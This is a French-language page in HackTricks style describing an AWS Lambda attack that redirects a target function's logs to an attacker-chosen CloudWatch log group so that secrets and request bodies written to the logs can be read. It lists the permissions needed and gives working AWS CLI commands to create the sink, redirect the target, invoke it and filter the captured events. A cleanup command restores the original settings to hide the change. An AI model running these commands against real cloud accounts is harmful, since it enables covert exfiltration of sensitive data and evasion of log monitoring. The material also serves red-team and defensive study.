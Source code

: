 # AWS Lambda – Log Siphon via LoggingConfig.LogGroup Redirection

{{#include ../../../../banners/hacktricks-training.md}}

Exploiter les contrôles de logging avancés `lambda:UpdateFunctionConfiguration` pour rediriger les logs d'une fonction vers un CloudWatch Logs log group choisi par l'attaquant. Cela fonctionne sans modifier le code ni le rôle d'exécution (la plupart des rôles Lambda incluent déjà `logs:CreateLogGroup/CreateLogStream/PutLogEvents` via `AWSLambdaBasicExecutionRole`). Si la fonction affiche des secrets/request bodies ou plante avec des stack traces, vous pouvez les récupérer depuis le nouveau log group.

## Permissions requises
- lambda:UpdateFunctionConfiguration
- lambda:GetFunctionConfiguration
- lambda:InvokeFunction (ou vous appuyer sur des triggers existants)
- logs:CreateLogGroup (souvent non requis si le rôle de la fonction l'a déjà)
- logs:FilterLogEvents (pour lire les événements)

## Étapes
1) Créer un log group de destination
```
aws logs create-log-group --log-group-name "/aws/hacktricks/ht-log-sink" --region us-east-1 || true
```
2) Rediriger les logs de la fonction cible
```
aws lambda update-function-configuration \
--function-name <TARGET_FN> \
--logging-config LogGroup=/aws/hacktricks/ht-log-sink,LogFormat=JSON,ApplicationLogLevel=DEBUG \
--region us-east-1
```
Attendez que `LastUpdateStatus` devienne `Successful` :
```
aws lambda get-function-configuration --function-name <TARGET_FN> \
--query LastUpdateStatus --output text
```
3) Invoquer et lire depuis le sink
```
aws lambda invoke --function-name <TARGET_FN> /tmp/out.json --payload '{"ht":"log"}' --region us-east-1 >/dev/null
sleep 5
aws logs filter-log-events --log-group-name "/aws/hacktricks/ht-log-sink" --limit 50 --region us-east-1 --query 'events[].message' --output text
```
## Impact
- Rediriger furtivement tous les logs d'application/système vers un log group que vous contrôlez, contournant l'hypothèse que les logs n'atterrissent que dans `/aws/lambda/<fn>`.
- Exfiltrer des données sensibles affichées par la fonction ou remontées dans les erreurs.

## Nettoyage
```
aws lambda update-function-configuration --function-name <TARGET_FN> \
--logging-config LogGroup=/aws/lambda/<TARGET_FN>,LogFormat=Text,ApplicationLogLevel=INFO \
--region us-east-1 || true
```
## Remarques
- Les paramètres de journalisation font partie du `LoggingConfig` de Lambda (LogGroup, LogFormat, ApplicationLogLevel, SystemLogLevel).
- Par défaut, Lambda envoie les logs vers `/aws/lambda/<function>`, mais vous pouvez pointer vers n'importe quel LogGroup ; Lambda (ou le rôle d'exécution) le créera si cela est autorisé.

{{#include ../../../../banners/hacktricks-training.md}}
